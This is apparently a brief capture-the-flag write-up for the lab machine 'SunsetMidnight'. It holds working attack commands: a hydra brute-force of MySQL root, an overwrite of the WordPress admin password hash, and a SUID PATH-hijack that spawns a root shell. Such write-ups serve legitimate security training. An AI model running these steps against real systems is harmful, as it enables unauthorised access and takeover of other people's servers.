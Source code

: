 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# SunsetMidnight
# 21/2/2023

----------------------------------------------------
# sql
----------------------------------------------------
hydra -l root -P /usr/share/wordlists/rockyou.txt sunset-midnight mysql -t 4
[3306][mysql] host: sunset-midnight   login: root   password: robert
We created a hash in md5 of the password “123456” (we will use it below).
└─$ echo -n "123456" | md5sum;echo ""
e10adc3949ba59abbe56e057f20f883e  -
└─$ mysql -h sunset-midnight -u root -probert
MariaDB [wordpress_db]> UPDATE wp_users SET user_pass="e10adc3949ba59abbe56e057f20f883e" WHERE ID=1;

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
3306/tcp open  mysql   MySQL 5.5.5-10.3.22-MariaDB-0+deb10u1

----------------------------------------------------
# PrivEsc
----------------------------------------------------
find / -perm -u=s -type f 2>/dev/null 
/usr/bin/status
/usr/bin/status
● ssh.service - OpenBSD Secure Shell server
   Loaded: loaded (/lib/systemd/system/ssh.service; enabled; vendor preset: enabled)
   Active: active (running) since Mon 2023-01-23 04:34:47 EST; 4 weeks 0 days ago
     Docs: man:sshd(8)
           man:sshd_config(5)
  Process: 472 ExecStartPre=/usr/sbin/sshd -t (code=exited, status=0/SUCCESS)
 Main PID: 531 (sshd)
    Tasks: 1 (limit: 1148)
   Memory: 2.7M
   CGroup: /system.slice/ssh.service
           └─531 /usr/sbin/sshd -D

Jan 23 04:34:46 midnight systemd[1]: Starting OpenBSD Secure Shell server...
Jan 23 04:34:47 midnight sshd[531]: Server listening on 0.0.0.0 port 22.
Jan 23 04:34:47 midnight systemd[1]: Started OpenBSD Secure Shell server.


Running strings over the binary it appears that /usr/bin/status prints the information by running service ssh status.

->strings /usr/bin/status


$ export PATH=/tmp:$PATH
$ echo "/bin/sh -p" > /tmp/service
$ chmod +x /tmp/service
$ /usr/bin/status
id

